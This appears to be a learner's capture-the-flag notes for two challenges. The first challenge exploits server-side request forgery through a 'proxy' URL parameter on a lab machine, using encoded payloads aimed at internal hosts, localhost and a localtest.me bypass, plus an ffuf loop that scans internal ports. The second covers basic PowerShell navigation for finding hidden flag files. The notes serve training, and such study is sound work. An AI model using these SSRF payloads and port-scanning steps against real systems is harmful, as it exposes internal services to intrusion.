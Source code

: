 http://10.10.147.127/?proxy=http%3A%2F%2Flist.hohoho%3A8080%2Fsearch.php%3Fname%3DTib3rius

After CyberChef:

http://list.hohoho:8080/search.php?name=Tib3rius

The most obvious thing we can try to do first is to fetch the root of the same site. Browse to:

http://10.10.147.127/?proxy=http%3A%2F%2Flist.hohoho%3A8080%2F 

Try changing the port number from 8080 to just 80 (the default HTTP port):

http://10.10.147.127/?proxy=http%3A%2F%2Flist.hohoho%3A80

http://10.10.147.127/?proxy=http%3A%2F%2Flist.hohoho%3A22

http://10.10.147.127/?proxy=http%3A%2F%2Flocalhost

http://10.10.147.127/?proxy=http%3A%2F%2Flist.hohoho.localtest.me


Generate all possible tcp ports:
for i in range {1..65536}; do echo $i >> ports.txt; done; 

ffuf -u http://<ip>/?proxy=http%3A%2F%2Flist.hohoho%3AFUZZ%2F -w ports.txt --fw 612


##Day-20

Powershell

get-help

To list the contents of the current directory we are in, we can use the Get-ChildItem cmdlet.  There are various other options we can use with this cmdlet to enhance its capabilities further.

- Path Specifies a path to one or more locations. Wildcards are accepted.
- File / -Directory To get a list of files, use the File parameter. To get a list of directories, use the Directory parameter. You can use the Recurse parameter with File and/or Directory parameters.
- Filter Specifies a filter to qualify the Path parameter.
- Recurse Gets the items in the specified locations and in all child items of the locations.
- Hidden To get only hidden items, use the Hidden parameter.
- ErrorAction SilentlyContinue Specifies what action to take if the command encounters an error.


    cd Documents
    
    ls -hidden
    
    cat e1fone.txt
    
    cd ..
    
    ls
    
    cd desktop
    
    cd elf2wo
    
    ls
    
    cat e70smsW10Y4k.txt
    
    cd ..
    